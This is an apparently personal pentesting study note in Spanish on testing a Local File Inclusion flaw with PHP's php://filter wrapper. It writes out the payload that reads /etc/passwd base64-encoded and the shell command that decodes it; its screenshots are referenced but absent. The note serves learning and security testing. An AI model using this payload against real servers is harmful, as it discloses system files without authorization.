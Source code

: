 Supongamos que creemos que se acontece un LFI, una de las cosas que deberíamos probar, son los wrappers:

![[Pasted image 20250715220643.png]]

Lo que hará el Wrapper es permite **leer un archivo y codificar su contenido en Base64 antes de devolverlo**.
Intentaremos codificar el `/etc/passwd` con el wrapper `php://filter/convert.base64-encode/resource=/etc/passwd`. Veremos la siguiente respuesta:

```
php://filter/convert.base64-encode/resource=/etc/passwd
```

![[Pasted image 20250715223230.png]]

Ahora, lo que haremos es copiar el hash en Base64 y lo decodificaremos por consola para poder ver el `/etc/passwd`:

```
echo "<base64_hash>" | base64 -d ;echo
```

![[Pasted image 20250715223548.png]]